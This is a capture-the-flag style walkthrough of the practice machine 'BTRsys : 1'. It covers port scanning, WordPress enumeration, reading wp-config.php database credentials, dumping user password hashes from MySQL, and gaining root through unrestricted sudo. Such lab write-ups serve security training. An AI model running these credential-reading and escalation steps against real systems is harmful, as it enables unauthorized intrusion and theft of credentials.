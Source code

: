 ```yaml
---
title: "BTRsys : 1"
categories: [Proving Grounds Play]
tags: [mysql, Wordpress, PrivEsc, CMS]
image:
  path: /Vulnhub-Files/img/BTRsys-1/Untitled%201.png
  alt:  "BTRsys : 1 Machine 🖥️"
---
```



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled.png)

```bash
IP : 192.168.249.138
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/BTRsys]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.138
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 02:11 EDT
Nmap scan report for pinkydb (192.168.249.138)
Host is up (0.00086s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.249.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08eee3ff3120876c12e71caac4e754f2 (RSA)
|   256 ade11c7de78676be9aa8bdb968927787 (ECDSA)
|_  256 0ce1eb060c5cb5cc1bd1fa5606223167 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-title: Site does not have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:A7:26:87 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%202.png)

Now lets try to find the user with wpscan tool →

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%206.png)

```bash
www-data@ubuntu:/$ uname -an
Linux ubuntu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/$
```
{: .nolineno}

Lets see the wp-config.php file →

```bash
www-data@ubuntu:/var/www/html/wordpress$ cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, WordPress Language, and ABSPATH. You can find more information
 * by visiting {@link http://codex.wordpress.org/Editing_wp-config.php Editing
 * wp-config.php} Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You do not have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Do not change this if in doubt. */
define('DB_COLLATE', '');
/** */
define('WP_HOME','/wordpress/');
define('WP_SITEURL','/wordpress/');
...
```
{: .nolineno}

Lets try for mysql login →

```bash
mysql> select * from wp_users \G ;
*************************** 1. row ***************************
                 ID: 1
         user_login: root
          user_pass: a318e4507e5a74604aafb45e4741edd3 : roottoor
      user_nicename: btrisk
         user_email: mdemir@btrisk.com
           user_url: 
    user_registered: 2017-04-24 17:37:04
user_activation_key: 
        user_status: 0
       display_name: btrisk
*************************** 2. row ***************************
                 ID: 2
         user_login: admin
          user_pass: 21232f297a57a5a743894a0e4a801fc3
      user_nicename: admin
         user_email: ikaya@btrisk.com
           user_url: 
    user_registered: 2017-04-24 17:37:04
user_activation_key: 
        user_status: 4
       display_name: admin
2 rows in set (0.00 sec)

ERROR: 
No query specified

mysql>
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%207.png)

Now lets dig deeper →

```bash
btrisk@ubuntu:/var/www/html/wordpress$ sudo -l
[sudo] password for btrisk: 
Matching Defaults entries for btrisk on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User btrisk may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (ALL : ALL) ALL
btrisk@ubuntu:/var/www/html/wordpress$ sudo /bin/bash -i
root@ubuntu:/var/www/html/wordpress# whoami
root
root@ubuntu:/var/www/html/wordpress# cd ~
root@ubuntu:~# ls -al
total 40
drwxr-xr-x 4 btrisk 1000 4096 Apr 24  2017 .
drwxr-xr-x 3 root   root 4096 Mar 17  2017 ..
-rw------- 1 btrisk 1000  243 May  2  2017 .bash_history
-rw-r--r-- 1 btrisk 1000  220 Mar 17  2017 .bash_logout
-rw-r--r-- 1 btrisk 1000 3771 Mar 17  2017 .bashrc
drwx------ 2 btrisk 1000 4096 Mar 17  2017 .cache
-rw------- 1 btrisk 1000  453 Mar 23  2017 .mysql_history
drwxrwxr-x 2 btrisk 1000 4096 Mar 21  2017 .nano
-rw-r--r-- 1 btrisk 1000  655 Mar 17  2017 .profile
-rw-r--r-- 1 btrisk 1000    0 Mar 17  2017 .sudo_as_admin_successful
-rw------- 1 btrisk 1000  586 Mar 21  2017 .viminfo
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }